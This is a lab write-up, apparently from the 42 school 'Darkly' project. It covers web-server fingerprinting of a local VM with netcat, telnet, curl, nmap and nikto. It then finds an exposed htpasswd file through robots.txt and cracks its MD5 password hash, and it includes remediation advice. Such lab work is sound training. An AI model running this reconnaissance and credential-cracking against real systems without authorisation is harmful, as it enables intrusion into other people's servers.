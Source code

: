 # Information Gathering

## [WSTG-INFO-02] Web server fingerprintint - [Banner grabbing](https://en.wikipedia.org/wiki/Banner_grabbing)

Establish a connection to the web server and send an HTTP request to gain information about the running service on the host, by examining its response header.

<details>
<summary>Using netcat</summary>

```sh
┌──$ [~/42/2022/darkly]
└─>  nc 192.168.56.101 80
HEAD / HTTP/1.0

HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Sun, 06 Nov 2022 10:06:35 GMT
Content-Type: text/html
Connection: close
X-Powered-By: PHP/5.5.9-1ubuntu4.29
Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327; expires=Sun, 06-Nov-2022 11:06:35 GMT; Max-Age=3600
```
</details>
<details>
<summary>Using telnet</summary>

```sh
┌──$ [~/42/2022/darkly]
└─>  telnet 192.168.56.101 80
Trying 192.168.56.101...
Connected to 192.168.56.101.
Escape character is '^]'.
HEAD / HTTP/1.0

HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Sun, 06 Nov 2022 10:08:34 GMT
Content-Type: text/html
Connection: close
X-Powered-By: PHP/5.5.9-1ubuntu4.29
Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327; expires=Sun, 06-Nov-2022 11:08:34 GMT; Max-Age=3600

Connection closed by foreign host.
```
</details>
<details>
<summary>Using curl</summary>

```sh
┌──$ [~/42/2022/darkly]
└─>  curl -I 192.168.56.101
HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Sun, 06 Nov 2022 10:36:47 GMT
Content-Type: text/html
Connection: keep-alive
X-Powered-By: PHP/5.5.9-1ubuntu4.29
Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327; expires=Sun, 06-Nov-2022 11:36:47 GMT; Max-Age=3600
```
</details>

Server is running [Nginx 1.4.6](https://nginx.org/en/CHANGES-1.4) on Ubuntu.
The `X-Powered-By` field specifies the technology used by the web server which is [PHP 5.5.9-1](https://prototype.php.net/versions/5.5.9/).
That information will narrow down a list of applicable exploits.

## Using automated scanning tools
Automated scanning tools are used within [Dynamic application security testing (DAST)](https://owasp.org/www-community/Vulnerability_Scanning_Tools) and are able to perform more robust scans.
<details>
<summary>Using Nmap</summary>

```sh
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -O -A 192.168.56.101
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-06 06:29 EST
Nmap scan report for 192.168.56.101
Host is up (0.0016s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.4.6 (Ubuntu)
| http-robots.txt: 2 disallowed entries
|_/whatever /.hidden
|_http-title: BornToSec - Web Section
|_http-server-header: nginx/1.4.6 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=11/6%OT=80%CT=1%CU=33514%PV=Y%DS=2%DC=T%G=Y%TM=63679AB
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=11%GCD=FA00%ISR=9C%TI=I%CI=RD%TS=U)OPS(O1
OS:=M5B4%O2=M5B4%O3=M5B4%O4=M5B4%O5=M5B4%O6=M5B4)WIN(W1=FFFF%W2=FFFF%W3=FFF
OS:F%W4=FFFF%W5=FFFF%W6=FFFF)ECN(R=Y%DF=N%T=41%W=FFFF%O=M5B4%CC=N%Q=)T1(R=Y
OS:%DF=N%T=41%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=N%T=100%W=0%S=Z%A=S%F=AR%O=%R
OS:D=0%Q=)T3(R=Y%DF=N%T=100%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T4(R=Y%DF=N%T=100%
OS:W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=N%T=100%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
OS:=)T6(R=Y%DF=N%T=100%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=N%T=100%W=0%S=Z
OS:%A=S%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=3D%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%
OS:RUCK=G%RUD=G)IE(R=N)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   0.79 ms 10.0.2.2
2   0.84 ms 192.168.56.101

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.97 seconds
```
</details>
<details>
<summary>Using Nikno</summary>

```sh
┌──(kali㉿kali)-[~]
└─$ nikto -host http://192.168.56.101
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = (unset),
        LC_CTYPE = "UTF-8",
        LC_TERMINAL = "iTerm2",
        LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to a fallback locale ("en_US.UTF-8").
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.101
+ Target Hostname:    192.168.56.101
+ Target Port:        80
+ Start Time:         2022-11-06 06:25:54 (GMT-5)
---------------------------------------------------------------------------
+ Server: nginx/1.4.6 (Ubuntu)
+ Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.29
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie I_am_admin created without the httponly flag
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-3268: /whatever/: Directory indexing found.
+ Entry '/whatever/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/.hidden' in robots.txt returned a non-forbidden or redirect HTTP code (301)
+ "robots.txt" contains 2 entries which should be manually viewed.
+ nginx/1.4.6 appears to be outdated (current is at least 1.14.0)
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3092: /includes/: This might be interesting...
+ OSVDB-3093: /admin/index.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ 7931 requests: 7 error(s) and 14 item(s) reported on remote host
+ End Time:           2022-11-06 06:26:16 (GMT-5) (22 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
</details>

## Remediation
Exposing server information can lead attacker to find version-specific vulnerabilities that can be used.

It is recommended to :
- Obscure web server information in headers
- Use proxy server to leave client with no knowledge of the web server behind

## [WSTG-INFO-03] Web server metafiles & information leakage
In previous section, Automated Scanning Tools showed that [`robots.txt`](https://www.robotstxt.org/robotstxt.html) lies on the server that contains instructions about the server.
```sh
┌──$ [~/42/2022/darkly]
└─>  curl http://192.168.56.101/robots.txt
User-agent: *
Disallow: /whatever
Disallow: /.hidden
```
It reveals that `/whatever` and `/.hidden` directories are present on the server.

[`/whatever`](http://192.168.56.101/whatever) contains a file name [`htpasswd`](http://192.168.56.101/whatever/htpasswd).
```sh
┌──$ [~/42/2022/darkly]
└─>  curl http://192.168.56.101/whatever/
<html>
<head><title>Index of /whatever/</title></head>
<body bgcolor="white">
<h1>Index of /whatever/</h1><hr><pre><a href="../">../</a>
<a href="htpasswd">htpasswd</a>                                           29-Jun-2021 18:09                  38
</pre><hr></body>
</html>
┌──$ [~/42/2022/darkly]
└─>  curl -LO http://192.168.56.101/whatever/htpasswd
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    38  100    38    0     0   5727      0 --:--:-- --:--:-- --:--:--  6333
┌──$ [~/42/2022/darkly]
└─>  file htpasswd
htpasswd: ASCII text
┌──$ [~/42/2022/darkly]
└─>  cat htpasswd
root:437394baff5aa33daa618be47b75cb49
```

[`htpasswd`](https://en.wikipedia.org/wiki/.htpasswd) is a canonical name used to store username and hashed password for basic authentification on HTTP server. Optionally, password is prepended by an algorithm specifier.

As there is not specified, a [quick search](https://md5.gromweb.com/?md5=437394baff5aa33daa618be47b75cb49) of hashed password reveal that reverse equals to the following string `qwerty123@`.

Confirm that by calculating md5 message digest on local machine.
```sh
┌──$ [~/42/2022/darkly]
└─>  echo -n "qwerty123@" | md5
437394baff5aa33daa618be47b75cb49
```
